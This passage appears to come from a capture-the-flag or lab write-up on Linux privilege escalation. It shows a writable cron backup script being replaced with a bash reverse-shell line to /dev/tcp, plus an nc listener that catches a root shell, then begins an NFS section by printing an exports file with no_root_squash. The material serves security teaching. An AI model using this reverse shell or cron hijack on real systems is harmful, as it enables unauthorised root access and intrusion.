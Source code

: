 We first check /karen/backup.sh 
  
``` 
karen@ip-10–10–23–186:~$ ls -lh /home/karen/ 
total 4.0K 
-rw-r - r - 1 karen karen 77 Jun 20 10:21 backup.sh 
karen@ip-10–10–23–186:~$ cat backup.sh 
#!/bin/bash 
cd /home/admin/1/2/3/Results 
zip -r /home/admin/download.zip ./* 
``` 
  
We first modify /Karen/backup.sh since we have permission 
  
And we make it return to us a reverse shell 
  
``` 
$ mv backup.sh backup.sh.bkup 
$ touch backup.sh 
$ vim backup.sh 
# Insert this line with your IP in the script: 
bash -i >& /dev/tcp/your-ip/6666 0>&1 
``` 
  
And then we set up a listener that the box can connect back to us 
  
``` 
$ nc -lvp 6666 
listening on [any] 6666 … 
10.10.23.186: inverse host lookup failed: Unknown host 
connect to [1.2.3.4] from (UNKNOWN) [10.10.23.186] 49878 
bash: cannot set terminal process group (13249): Inappropriate ioctl for device 
bash: no job control in this shell 
root@ip-10–10–23–186:~# 
``` 
  
And that is how you get a shell using crontab

# **6 Exploiting the Network File Sharing Protocol (NFS)** 
  
![](https://miro.medium.com/v2/resize:fit:325/0*7aYkD8bsUPJ1_vbA) 
  
Network File Sharing (NFS) is a protocol that allows you to share directories and files with other Linux clients over a network. 
  
We first check /etc/exports for the config file. 
  
``` 
karen@ip-10–10–242–200:/$ cat /etc/exports 
# /etc/exports: the access control list for file systems which may be exported 
# to NFS clients. See exports(5). 
# 
# Example for NFSv2 and NFSv3: 
# /srv/homes hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check) 
# 
# Example for NFSv4: 
# /srv/nfs4 gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check) 
# /srv/nfs4/homes gss/krb5i(rw,sync,no_subtree_check) 
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check) 
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check) 
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check) 
``` 
  